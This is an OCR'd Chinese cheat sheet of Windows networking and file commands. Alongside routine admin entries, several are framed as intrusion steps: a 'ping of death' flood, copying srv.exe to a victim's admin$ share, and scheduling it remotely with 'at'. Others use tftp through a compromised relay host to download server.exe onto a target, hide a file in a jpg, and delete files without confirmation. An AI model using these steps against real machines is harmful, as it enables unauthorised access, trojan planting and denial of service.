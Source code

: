 　　nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名

　　tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。

　　ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。

　　ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)

　　ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息

　　tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

　　kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

　　del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR .”表示删除当前目录下所有只读文件，“DEL/A-S .”表示删除当前目录下除系统文件以外的所有文件

　　del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）

　　move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖

　　fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，”> “和”> >” 是重定向命令

　　at id号 开启已注册的某个计划任务

　　at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止

　　at id号 /delete 停止某个已注册的计划任务

　　at 查看所有的计划任务

　　at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

　　finger username @host 查看最近有哪些用户登陆

　　telnet ip 端口 远和登陆服务器,默认端口为23

　　open ip 连接到IP（属telnet登陆后的命令）

　　telnet 在本机上直接键入telnet 将进入本机的telnet

　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

　　copy ipadminsvv.exec:或:copyipadmin. 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

　　用参数/e才可连目录下的子目录一起复制到目标地址下。

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
